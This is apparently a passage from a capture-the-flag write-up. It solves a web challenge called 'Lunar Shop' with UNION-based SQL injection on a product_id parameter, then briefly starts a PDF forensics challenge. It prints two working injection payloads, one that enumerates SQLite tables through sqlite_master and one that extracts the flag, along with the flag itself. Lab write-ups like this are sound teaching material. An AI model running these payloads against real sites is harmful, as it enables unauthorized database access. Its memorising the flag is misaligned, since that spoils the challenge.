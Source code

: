 ### Lunar Shop

This looks like a storefront listing items.  
The URL contains a `product_id` parameter.  
![alt text](shop_1.png)  

You can trigger an error:  
![alt text](shop_2.png)  

Then try UNION-based SQL injection; there are 4 columns.  
I guessed it was SQLite, so I queried `sqlite_master` to enumerate tables and schema:
```sql
UNION SELECT NULL, name, sql, NULL FROM sqlite_master WHERE type='table'  
```

From there it’s straightforward to pull the flag:
```sql
UNION SELECT NULL, NULL, flag, NULL FROM flag 
```

Flag: `sun{baby_SQL_injection_this_is_known_as_error_based_SQL_injection_8767289082762892}`

---

## Forensics
### Pretty Delicious Food

Given a [pdf](./prettydeliciouscakes.pdf). I ran `strings` and `binwalk`.
